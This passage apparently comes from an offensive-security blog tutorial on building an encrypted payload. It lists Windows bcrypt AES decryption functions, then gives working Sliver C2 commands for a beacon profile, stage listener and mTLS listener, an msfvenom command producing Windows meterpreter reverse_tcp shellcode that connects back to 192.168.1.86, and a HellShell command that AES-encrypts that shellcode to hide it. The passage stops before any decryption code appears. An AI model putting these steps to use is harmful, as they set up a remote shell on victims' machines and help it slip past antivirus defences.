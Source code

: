 We will be using HellShell to encrypt the payload using AES and it also provides us the code chunk that can be used with the decryption along with the ciphertext, key and IV. HellShell uses Windows **bcrypt.h** header to perform AES encryption and decryption. Below listed functions are the major ones that are used to decrypt the encrypted blob. I would suggest you to go through each of the functions from the link below.
    

| Function | Description |
|----------|-------------|
| [BCryptOpenAlgorithmProvider](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptclosealgorithmprovider) | Loads and initializes a CNG provider. |
| [BCryptGetProperty](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptgetproperty) | Retrieves the value of a named property for a CNG object. |
| [BCryptSetProperty](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptsetproperty) | Sets the value of a named property for a CNG object. |
| [BCryptGenerateSymmetricKey](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptgeneratesymmetrickey) | Creates a key object for symmetric encryption. |
| [BCryptDecrypt](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptdecrypt) | Decrypts a block of data. |
| [BCryptDestroyKey](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptdestroykey) | Destroys a key. |
| [BCryptCloseAlgorithmProvider](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptclosealgorithmprovider) | Closes an algorithm provider. |


We will go through the brief of each one of the functions while we decrypt our msfvenom shellcode. For now, let's start with Stage I.

## Stage I - Shellcode Generation and C2 Listener.
The shellcode generation and listening for the connection on the Sliver C2 is same as what we did on the previous blog.         

```bash
# Creating a profile on the C2
profiles new beacon --mtls 192.168.1.86:443 --format shellcode shellcode-beacon

# Creating a stage listener on port 8080. This listener delivers staged payloads and start the mTLS C2 server on host 192.168.1.86 and port 443.
stage-listener -u tcp://192.168.1.86:8080 -p shellcode-beacon

mtls -L 192.168.1.86 -l 443

# Generating the shellcode using msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.86 LPORT=8080 -f raw -o /tmp/win11-shellcode.bin
```

## Stage II - Shellcode Encryption & Decryption
Once we have the shellcode ready and transferred into our Windows attacking machine, we will execute HellShell to generate our encrypted payload using the below command:       
```powershell
HellShell.exe .\win11-shellcode.bin aes
```

Note that the Helshell provides us the code to decrypt and the encrypted blob as well.